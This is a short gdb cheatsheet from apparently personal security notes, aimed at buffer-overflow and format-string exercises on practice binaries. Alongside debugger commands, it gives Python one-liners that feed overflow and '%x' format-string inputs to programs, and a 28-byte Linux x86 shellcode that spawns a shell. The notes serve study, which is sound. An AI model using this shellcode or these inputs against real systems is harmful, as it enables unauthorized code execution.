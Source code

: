 # Computer Security  `notes`

[TOC]

## `gdb` cheatsheet

- Change to Intel syntax

	```bash
	set disassembly-flavor intel
	```

- Check stack:

  ```bash
  x/100x $esp   // Show values in exadecimal
  x/1000s $esp  // Show values as ascii characters (useful to check position of environmnet variables)
  ```

- Give python-generated string as command line argument to a program:

	```bash
	python -c 'print("A"*40)' | ./ch
	```

- Same as above with additional commands

	```bash
	(python -c 'print("A"*40)';cat) | ./ch
	```

- Supply command line argument to program through python

	```bash
	./format1 "$(python -c "print '%x ' * 10")"
	```

- Redirect input to `gdb`

  ```
  r < /home/user/input.txt
  r < `python /home/user/exploit_stack6.py`
  ```

- A `28` bytes shellcode for Linux x86 binaries:

	```
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" 
	```

- `info frame`

	Gives you information about the current frame, e.g.:

	```
	(gdb) info frame
	Stack level 0, frame at 0xbffff790:
	   eip = 0x80483d9 in main (stack5/stack5.c:11); saved eip 0x43434343
	   source language c.
	   Arglist at 0xbffff788, args: argc=0, argv=0xbffff834
	   Locals at 0xbffff788, Previous frame's sp is 0xbffff790
	   Saved registers:
	       ebp at 0xbffff788, eip at 0xbffff78c
	```
